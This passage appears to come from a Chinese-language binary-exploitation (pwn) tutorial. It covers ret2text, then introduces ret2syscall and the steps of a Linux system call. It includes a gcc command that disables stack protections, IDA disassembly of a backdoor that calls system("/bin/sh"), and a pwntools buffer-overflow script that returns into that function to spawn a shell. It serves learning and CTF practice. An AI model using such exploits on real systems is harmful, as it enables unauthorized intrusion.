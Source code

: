 ```plain
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

编译后调试或者用ida反编译工具查看其后门函数地址即可

例如此处在ida中观察到其地址为0x4011c5

```plain
.text:00000000004011BD                               ; __unwind {
.text:00000000004011BD F3 0F 1E FA                   endbr64
.text:00000000004011C1 55                            push    rbp
.text:00000000004011C2 48 89 E5                      mov     rbp, rsp
.text:00000000004011C5 48 8D 3D 38 0E 00 00          lea     rdi, command                    ; "/bin/sh"
.text:00000000004011CC E8 9F FE FF FF                call    _system
.text:00000000004011CC
```

那么接下来用上面的payload构造模版即可

通过运行程序输入或者通过脚本输入即可运行后门函数中的shell

脚本

```plain
from pwn import*

io = process('./text')
payload = b'a'*(0x10+8)+p64(0x4011c5)
io.sendline(payload)
io.interactive()
```

## 2.ret2syscall

ret2syscall和ret2text的攻击方式基本相同，通过在程序中寻找系统调用函数syscall代码等来构造出一个后门危险函数

### syscall：系统调用

常见的系统调用汇编码和系统调用号

[系统调用号\_linux 64位系统调用号-CSDN博客](https://blog.csdn.net/winter2121/article/details/119845443)

```plain
int 0x80;//32位
syscall;//64位
```

系统调用的基本过程

系统调用过程涉及以下几个步骤：[系统调用过程](https://answer.baidu.com/answer/land?params=ttTnGaZyd4Feyh2LbMnEJHHHkBIbIQ6ui5V5RcLcWpsy9Rj5ZPs2cK3txnUftxLnSQRYt9AD9%2BR%2ByYwmcnGZ6yYLYCV7VlV1yxpoxgImiBR013eYvDD%2FPvmFCa6DflJCaFH%2BsH3FBmAXF3VLggh9zs82B7a0LCTDs2MWotlrsfqhp6GdAaVkmxaK6XQgDGLt&from=dqa&lid=9b658aae005805ec&word=%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E8%BF%87%E7%A8%8B)

1.  用户程序发出系统调用请求：用户程序通过编程语言提供的系统调用接口（如C语言中的库函数）发出系统调用请求，请求操作系统执行某种特定的操作。
2.  权限检查：操作系统接收到用户程序的请求后，会进行权限检查，以确保用户程序有权限执行该系统调用。
3.  切换到内核态：如果权限检查通过，操作系统会将用户程序的上下文切换到内核模式，以便执行操作系统提供的服务。
4.  参数传递和准备工作：在内核态中，操作系统会获取用户程序提供的系统调用参数，并做好相应的准备工作，例如分配内存空间
5.  执行系统调用：操作系统执行用户程序请求的系统调用功能，这可能包括打开或关闭文件、创建或终止进程、进行内存管理等各种操作。
6.  返回结果和错误处理：系统调用执行完毕后，操作系统会将执行结果返回给用户程序，并进行相应的错误处理，例如返回错误码或打印错误信息等。
7.  切换回用户态：操作系统完成系统调用操作后，将会切换回用户态，继续执行用户程序的下一条指令。
